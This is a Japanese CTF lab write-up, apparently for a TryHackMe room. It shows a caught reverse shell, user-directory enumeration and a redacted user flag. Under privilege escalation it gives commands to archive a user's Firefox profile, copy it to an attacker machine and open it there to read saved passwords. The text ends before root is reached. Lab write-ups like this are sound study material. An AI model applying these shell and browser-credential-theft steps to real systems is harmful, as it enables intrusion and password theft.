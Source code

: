 シェル取得成功。

```shell
$ nc -nvlp 6666
listening on [any] 6666 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.4.65] 48466
sh: 0: can't access tty; job control turned off
$ id
uid=1000(user) gid=1000(user) groups=1000(user),30(dip),46(plugdev)
```

```shell
$ ls -al /home
total 16
drwxr-xr-x  4 root root 4096 Jan 15  2021 .
drwxr-xr-x 24 root root 4096 Jan 27  2021 ..
drwxr-xr-x  8 user user 4096 Jan 27  2021 user
drwxr-xr-x  2 v0id v0id 4096 Jan 21  2021 v0id
$ ls -al /home/user
total 48
drwxr-xr-x   8 user user  4096 Jan 27  2021 .
drwxr-xr-x   4 root root  4096 Jan 15  2021 ..
lrwxrwxrwx   1 root root     9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4  2021 .cache
drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
drwx------   3 user user  4096 Jan  4  2021 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4  2021 .npm
drwxrwxr-x   5 user user  4096 Mar 21 07:00 .pm2
drwx------   2 user user  4096 Jan 21  2021 .ssh
-rw-rw-r--   1 user user    22 Jan  4  2021 user.txt
$ cat /home/user/user.txt
THM{..............}
```

ユーザーフラグゲット

## 権限昇格

気になったのは、見慣れない doas コマンドにSUIDがついていた点。

userユーザーで使用してみたが、パーミッション不足と表示された。

```shell
doas -u root bash -p
```

分からないのでウォークスルーを見た。  
Firefox のプロフィールをロードすることで、保存されたパスワードを読める。

```shell
# target
tar -cvf firefox.tar ./.firefox
```

```shell
# kali
tar -xvf ./firefox.tar

firefox --profile .firefox/b5w4643p.default-release --allow-downgrade
```
